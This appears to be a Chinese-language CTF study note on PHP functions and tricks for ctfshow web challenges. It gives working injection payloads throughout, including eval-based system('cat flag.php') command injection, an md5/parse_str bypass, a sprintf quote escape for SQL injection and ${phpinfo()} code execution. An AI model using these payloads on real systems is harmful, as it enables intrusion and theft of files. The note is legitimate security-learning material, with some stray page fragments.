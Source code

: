 PHP专题
基础
ctfshow web102

```
<?=是php的短标签，是echo()的快捷用法 ？？ 
```

#### 数组总比非数组类型大
 #### && > = > and 
#### 内部类 常用`Exception`，其他可用的有 `DirectoryIterator/FilesystemIterator/SplFileObject/GlobIterator/ReflectionClass/ReflectionMethod` ```php // ctfshow web109/web110 eval("echo new $v1($v2());"); // ?v1=Exception&v2=system('tac fl36dg.txt') ``` 
### 考题中会出现的函数
#### get_defined_vars() 返回由所有已定义变量所组成的数组 
#### call_user_func() 函数把第一个参数作为回调函数，其余参数都是回调函数的参数 
#### \_() 是一个函数 
\_()等效于gettext() 是gettext()的拓展函数，需要开启text扩展。`echo gettext("ctfshownb");` `和 echo _("ctfshownb");` 的输出结果都为 ctfshownb 
#### parse_str() 
函数会将传入的第一个参数设置成变量，如果设置了第二参数，则会将第一个参数的变量以数组元素的形式存入到这个数组。 ```php if(isset($_POST['v1'])){ $v1 = $_POST['v1']; $v3 = $_GET['v3']; parse_str($v1,$v2); if($v2['flag']==md5($v3)){ echo $flag; } } // payload GET ?v3=1 & POST:v1=flag=c4ca4238a0b923820dcc509a6f75849b # md5解密后对应1 ``` 
#### strrev() 反转字符串 
#### shell_exec() 缩写为`` 
#### sprintf() 
`sprintf(format,arg1,arg2,arg++)`： 把格式化的字符串写入一个变量中。arg1、arg2、arg++ 参数将被插入到主字符串中的百分号（%）符号处。该函数是逐步执行的。在第一个 % 符号处，插入 arg1，在第二个 % 符号处，插入 arg2，依此类推。`%`后的第一个字符，都会被当做字符类型而被吃掉。也就是当做一个类型进行匹配后面的变量。如`%c`匹配ascii码，`%d`匹配整数，如果不在定义中的也会进行匹配，匹配为空。比如`%\`匹配任何参数都为空。 ```php <?php ... $username = addslashes($_POST['username']); $username = sprintf("username = '%s' ",$username); $password = $_POST['password']; ... $sql = sprintf("select * from t where $username and password = '%s' ", $password); ... ?>

payload`username = admin%1$' and 1 = 1#`，可以使**单引号逃逸**，导致存在sql盲注。

#### mt_rand()

`mt_rand(min,max)` 

```php
 <?php
 show_source(__FILE__);
 include "flag.php";
 $a = @$_REQUEST['hello']; // hello没有任何过滤
 $seed = @$_REQUEST['seed'];
 $key = @$_REQUEST['key'];

 mt_srand($seed);
 $true_key = mt_rand();
 if ($key == $true_key){
 	echo "Key Confirm";
 }
 else{
 	die("Key Error");
 }
 eval( "var_dump($a);");
 ?>

AI助手
payload: POST:seed=1&key=1244335972&hello=);system('cat flag.php');echo(0

复杂变量${}
eval('$string = "'.$_GET[cmd].'";');  // payload: http://127.0.0.1/test.php?cmd=${phpinfo()}
1
AI助手
file_get_contents()
函数将整个文件或一个url所指向的文件读入一个字符串中

fsockopen()
fsockopen($hostname,$port,$errno,$errstr,$timeout)用于打开一个网络连接或者一个Unix 套接字连接，初始化一个套接字连接到指定主机（hostname），实现对用户指定url数据的获取。该函数会使用socket跟服务器建立tcp连接，进行传输原始数据。 fsockopen()将返回一个文件句柄，之后可以被其他文件类函数调用（例如：fgets()，fgetss()，fwrite()，fclose()还有feof()）。如果调用失败，将返回false。

SoapClient
SoapClient是一个php的内置类，当其进行反序列化时，如果触发了该类中的__call方法，那么__call便方法可以发送HTTP和HTTPS请求。


                